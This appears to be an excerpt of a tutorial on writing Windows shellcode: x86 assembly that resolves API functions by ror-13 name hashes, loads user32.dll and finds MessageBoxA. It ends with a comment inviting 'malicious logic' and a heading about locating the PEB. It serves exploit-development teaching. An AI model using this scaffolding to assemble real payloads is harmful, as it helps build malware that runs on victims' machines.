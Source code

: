 ```nasm
    test  al, al                     ;   Check for NULL terminator
    jz    compute_hash_finished      ;   If the ZF is set, we've hit the NULL term
    ror   edx, 0x0d                  ;   Rotate edx 13 bits to the right
    add   edx, eax                   ;   Add the new byte to the accumulator
    jmp   compute_hash_again         ;   Next iteration

compute_hash_finished:             

find_function_compare:             
    cmp   edx, [esp+0x24]            ;   Compare the computed hash with the requested hash
    jnz   find_function_loop         ;   If it doesn't match go back to find_function_loop
    mov   edx, [edi+0x24]            ;   AddressOfNameOrdinals RVA
    add   edx, ebx                   ;   AddressOfNameOrdinals VMA
    mov   cx,  [edx+2*ecx]           ;   Extrapolate the function's ordinal
    mov   edx, [edi+0x1c]            ;   AddressOfFunctions RVA
    add   edx, ebx                   ;   AddressOfFunctions VMA
    mov   eax, [edx+4*ecx]           ;   Get the function RVA
    add   eax, ebx                   ;   Get the function VMA
    mov   [esp+0x1c], eax            ;   Overwrite stack version of eax from pushad

find_function_finished:            
    popad                            ;   Restore registers
    ret                              ;

resolve_symbols_kernel32:        
    push 0xec0e4e8e                  ;   LoadLibraryA hash
    call dword  [ebp+0x04]           ;   Call find_function
    mov   [ebp+0x10], eax            ;   Save LoadLibraryA address for later usage
    push 0x78b5b983                  ;   TerminateProcess hash
    call dword  [ebp+0x04]           ;   Call find_function
    mov   [ebp+0x14], eax            ;   Save TerminateProcess address for later usage

load_user32_lib:                 
    xor eax, eax                     ;  EAX = Null
    mov ax, 0x6c6c;                  
    push eax;                        ; Stack = "ll"
    push dword 0x642e3233;           ; Stack = "32.dll"
    push dword 0x72657355;           ; Stack = "User32.dll"
    push esp                         ; Stack = &("User32.dll")
    call dword  [ebp+0x10]           ; Call LoadLibraryA

resolve_symbols_user32:        
    mov   ebx, eax                  ;  Move the base address of user32.dll to EBX
    push 0xbc4da2a8                 ;  MessageBoxA hash
    call dword  [ebp+0x04]          ;  Call find_function
    mov   [ebp+0x18], eax           ;  Save MessageBoxA address for later usage

; [!] Implement the malicious logic below this line
```

### How do we always know where the PEB (and our functions are)?
